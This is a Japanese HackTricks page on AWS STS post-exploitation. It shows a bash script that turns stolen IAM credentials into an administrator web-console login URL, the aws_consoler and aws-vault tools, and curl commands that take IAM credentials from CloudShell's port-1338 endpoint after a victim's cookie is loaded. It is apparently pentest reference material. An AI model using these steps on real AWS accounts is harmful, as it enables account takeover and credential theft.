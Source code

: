 # AWS - STSポストエクスプロイテーション

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* **HackTricksを広告掲載したい企業の方**や、**PEASSの最新バージョンやHackTricksのPDFダウンロード**をご希望の方は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をご確認ください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見しましょう
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローしましょう 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのテクニックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

## STS

詳細については、以下を参照してください：

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

### IAMクレデンシャルからコンソールへ

IAMクレデンシャルを取得できた場合、以下のツールを使用して**Webコンソールにアクセス**することができます。\
ただし、ユーザー/ロールには**`sts:GetFederationToken`**の権限が必要です。

#### カスタムスクリプト

次のスクリプトは、デフォルトのプロファイルとデフォルトのAWSロケーション（govおよびcnではない）を使用して、Webコンソールにログインするために使用できる署名付きURLを提供します：

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo $resp | jq -r '.SigninToken')

# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

[https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler)を使用して、**ウェブコンソールのリンクを生成**することができます。
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
IAMユーザーには`sts:GetFederationToken`の権限があることを確認するか、アサインするロールを提供してください。
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault)は、開発環境でAWSの資格情報を安全に保存およびアクセスするためのツールです。
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
**aws-vault**を使用して**ブラウザのコンソールセッション**を取得することもできます。
{% endhint %}

#### コンソールからIAMクレデンシャルへ

ウェブコンソールへのアクセスを何らかの方法で妨害できた場合（おそらくクッキーを盗んで.awsフォルダにアクセスできなかった場合）、**CloudShell**を介してそのユーザーのIAMトークンクレデンシャルを取得することができます。

CloudShellは、**ポート1338の未公開エンドポイント**を介してIAMクレデンシャルを公開します。被害者からのセッションクッキーをブラウザに読み込んだ後、CloudShellに移動し、以下のコマンドを実行してIAMクレデンシャルを取得できます。
```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```
<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **会社をハックトリックで宣伝したい**場合や、**最新バージョンのPEASSにアクセスしたい**場合、またはHackTricksをPDFでダウンロードしたい場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見しましょう
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローしましょう 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有するには、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>
